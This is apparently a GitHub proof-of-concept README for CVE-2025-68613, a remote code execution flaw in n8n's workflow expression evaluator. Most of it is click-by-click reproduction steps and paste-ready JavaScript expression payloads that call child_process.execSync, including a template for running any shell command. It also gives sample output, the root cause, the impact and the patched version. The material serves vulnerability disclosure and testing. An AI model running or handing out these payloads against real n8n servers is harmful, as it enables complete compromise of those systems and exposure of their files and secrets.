

# n8n - CVE-2025-68613: Improper Control of Dynamically-Managed Code Resources 

## Vulnerability

n8n contains a critical Arbitrary Code Execution vulnerability in its workflow expression evaluation system. Under certain conditions, expressions supplied by authenticated users during workflow configuration may be evaluated in an execution context that is not sufficiently isolated from the underlying runtime.

## Affected Versions

- **Vulnerable:** n8n < v1.122.0
- **Patched:** n8n >= v1.122.0

## Requirements

- Authenticated access to n8n instance
- Ability to create/edit workflows

## Steps to Reproduce

### 1. Create New Workflow
- Click "Add workflow"

### 2. Add Nodes
- Add "Manual Trigger" node
- Add "Set" node (connected to trigger)

### 3. Configure Payload
- Click on Set node
- Click "Add Value" → Select "String"
- Name the field "result"
- Click "=" icon to enable expression mode

### 4. Inject Payload
Paste this payload into the expression field:

```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

### 5. Execute
- Click "Execute step"
- Check Set node output for command result



## Payload Examples

**ID Command:**
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

**PWD Command:**
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('pwd').toString() })() }}
```

**Custom Command Template:**
```javascript
{{ (function(){ return this.process.mainModule.require('child_process').execSync('COMMAND').toString() })() }}
```

## Expected Output

For `id` command:
```
uid=1000(node) gid=1000(node) groups=1000(node)
```

For `pwd` command:
```
/app
```

## Root Cause

The expression evaluator lacks a sanitizer to prevent function expressions from accessing `this.process` (Node.js process object), allowing access to system modules.

## Impact

- Arbitrary command execution
- File system access
- Environment variable exposure
- Complete system compromise

## Mitigation

Upgrade to n8n v1.122.0 or later.

## References

- Fix: https://github.com/n8n-io/n8n/commit/08f332015153decdda3c37ad4fcb9f7ba13a7c79
- Repo: https://github.com/n8n-io/n8n
- Blog post : https://blog.ogwilliam.com/post/n8n-rce-vulnerability-cve-2025-68613

Disclaimer: This information is provided for sandbox and educational purposes only. Unauthorized use of this information to exploit systems is illegal and unethical. Always obtain proper authorization before testing or exploiting vulnerabilities.